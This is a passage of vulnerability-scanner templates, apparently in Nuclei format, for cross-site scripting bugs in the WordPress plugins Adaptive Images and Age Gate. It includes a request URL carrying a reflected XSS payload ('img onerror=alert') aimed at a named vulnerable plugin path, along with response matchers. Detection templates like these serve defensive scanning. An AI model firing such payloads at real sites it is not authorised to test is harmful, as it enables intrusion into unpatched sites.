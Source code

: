 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Adaptive Images \< 0.6.69 - Cross-Site Scripting
## Description
- WordPress Adaptive Images \< 0.6.69 is susceptible to cross-site scripting because the plugin does not sanitize and escape the REQUEST_URI before outputting it back in a page.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin,wp
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/adaptive-images/adaptive-images-script.php/%3Cimg/src/onerror=alert(document.domain)%3E/?debug=true
### Matchers

**Type - word**
- words
    1. \<img/src/onerror=alert(document.domain)>
    2. \<td>Image\</td>
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Age Gate \<2.20.4 - Cross-Site Scripting
## Description
- WordPress Age Gate plugin before 2.20.4 contains a cross-site scripting vulnerability. The plugin does not escape some URLs before outputting them back in attributes.
